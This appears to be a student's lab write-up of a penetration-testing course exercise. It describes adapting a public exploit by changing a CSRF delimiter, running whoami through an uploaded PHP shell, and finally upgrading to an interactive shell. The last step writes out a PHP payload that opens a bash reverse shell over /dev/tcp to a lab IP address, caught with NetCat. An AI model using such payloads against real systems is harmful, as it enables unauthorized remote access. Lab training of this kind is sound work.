






### 15.2.4.1 Exercises
#### 1. Observe the error that is generated when running the exploit.



#### 2. Attempt to troubleshoot the code and determine why the error occurs.

I added a print statement to show me the value of `location` before this function call and re-ran it:



Output:



The issue seems to be that the code is expecting the text `__c` to show up in the URL and was trying to use that as the delimiter for the split command.  However, we have `_sk_` instead.

#### 3. Modify the exploit in order to avoid the error and run it against your dedicated Linux client.

I modified the `csrf_param` value and changed it from `__c` to `_sk_`, then re-ran the code.



#### 4. Verify that your exploit worked by attempting to execute the whoami command using the remote php shell.

I was able to run a whoami command against the target using the php shell:



#### 5. Attempt to obtain a fully interactive shell with this exploit.

- I modified the payload for the PHP file to this:

  ```php
  payload = "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/192.168.119.216/8000 0>&1'\");?>"
  ```

- Started the NetCat Listener, visited the created page and got a reverse shell.